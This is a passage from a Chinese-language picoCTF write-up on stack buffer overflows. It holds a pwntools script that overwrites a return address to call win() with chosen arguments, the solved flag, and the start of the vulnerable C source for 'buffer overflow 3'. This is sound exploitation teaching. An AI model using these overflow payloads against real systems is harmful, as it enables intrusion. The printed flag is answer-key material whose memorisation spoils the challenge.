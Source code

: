 ```C
  vuln();
  return 0;
}
```

需要传入两个正确的参数，注意一个函数的栈空间从低地址到高地址依次为：变量区、ebp/rbp、返回地址。需要将返回地址覆盖为win函数的起始地址，之后从逻辑上应该是win函数的返回地址，再之后才是win函数的参数。

payload：

```python
from pwn import *

# io = process(b'./vuln')
io = remote('saturn.picoctf.net', 65430)

io.sendlineafter(b'Please enter your string: ', cyclic(112) + p32(0x8049296) + p32(0xDEADBEEF) + p32(0xCAFEF00D) + p32(0xF00DF00D))

io.interactive()
```

picoCTF{argum3nt5_4_d4yZ_b3fd8f66}

## 8. buffer overflow 3

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```